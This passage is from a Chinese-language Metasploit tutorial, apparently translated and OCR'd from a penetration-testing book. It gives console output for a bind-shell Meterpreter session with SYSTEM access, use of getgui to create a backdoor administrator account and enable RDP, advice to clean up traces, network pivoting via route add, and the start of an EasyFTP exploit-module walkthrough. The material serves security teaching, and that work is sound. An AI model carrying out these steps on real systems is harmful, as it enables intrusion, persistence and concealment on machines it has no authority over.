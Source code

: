 ```
 [*] Meterpreter session 1 closed. Reason: User exit msf exploit(ms08_067_netapi) > back msf> use exploit/multi/handler msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp PAYLOAD => windows/metsvc_bind_tcp msf exploit(handler) > set LPORT 31337 LPORT => 31337 msf exploit(handler) > set RHOST 192.168.0.7 RHOST => 192.168.0.7 msf exploit(handler) > exploit [*] Starting the payload handler... [*] Started bind handler [*] Meterpreter session 2 opened (192.168.0.3:37251 ->
192.168.0.7:31337) at Tue Nov 16 20:02:05 +0000 2010 meterpreter>getuid Server username: NT AUTHORITYSYSTEM
```

让我们使用另一个有用的 MeterMeter 脚本`getgui`，为我们的目标启用远程桌面访问。以下练习将在目标上创建一个新的用户帐户，并启用远程桌面服务（如果以前已禁用）：

```
 meterpreter> run getgui -u btuser -p btpass
    [*] Windows Remote Desktop Configuration Meterpreter Script by 
Darkoperator
    [*] Carlos Perez carlos_perez@darkoperator.com
    [*] Language set by user to: 'en_EN'
    [*] Setting user account for logon
    [*]     Adding User: btuser with Password: btpass
    [*]     Adding User: btuser to local group 'Remote Desktop Users'
    [*]     Adding User: btuser to local group 'Administrators'
    [*] You can now login with the created user
    [*] For cleanup use command: run multi_console_command -rc
/root/.msf3/logs/scripts/getgui/clean_up__20101116.3447.rc 
```

现在，我们可以通过在另一个终端上输入以下命令，使用`rdesktop`程序登录我们的目标系统：

```
 # rdesktop 192.168.0.7:3389 
```

请注意，如果您已经为目标计算机上的任何现有用户持有破解密码，则只需执行`run getgui -e`命令即可启用远程桌面服务，而无需添加新用户。此外，不要忘记通过执行上一个输出末尾引用的`getgui/clean_up`脚本来清理系统上的轨迹。

我应该如何通过更深入地访问外部无法访问的目标网络来扩展攻击范围？Metasploit 提供了使用`route add targetSubnettargetSubnetMaskSessionId`命令查看并向目标网络添加新路由的功能（例如，路由添加`10.2.4.0 255.255.255.0 1`。这里，`SessionId`参数指向现有的 MeterMeter 会话（网关），`targetsubnet`参数是另一个网络地址（或双主以太网网络地址），它位于受损目标之外。一旦您将 Metasploit 设置为通过受损的主机会话路由所有流量，我们就可以进一步深入到通常无法从我们这边路由的网络中。这通常被称为旋转或抱脚。

# 编写漏洞模块

开发利用是 Metasploit 框架最有趣的方面之一。在本节中，我们将简要讨论围绕开发利用的核心问题，并通过从现有框架的数据库中获取一个实例来解释其关键框架。然而，在尝试编写自己的漏洞利用模块之前，熟练使用 Ruby 编程语言是很重要的。另一方面，反向工程的中级技能和对漏洞发现工具（例如，模糊器和调试器）的实际理解为漏洞利用构造提供了一个开放的地图。本节仅作为本主题的介绍，而不是完整的指南。

在我们的示例中，我们选择了利用漏洞（EasyFTP 服务器<=1.7.0.11 MKD 命令堆栈缓冲区溢出），这将提供利用 Easy FTP 服务器应用程序中缓冲区溢出漏洞的基本视图。您可以针对在其他 FTP 服务器应用程序中发现的类似漏洞移植此模块，从而有效地利用您的时间。利用漏洞代码位于`/usr/share/metasploit-framework/modules/exploits/windows/ftp/easyftp_mkd_fixret.rb`：

```
 ##
    # $Id: easyftp_mkd_fixret.rb 9935 2010-07-27 02:25:15Z jduck $
    ## 
```
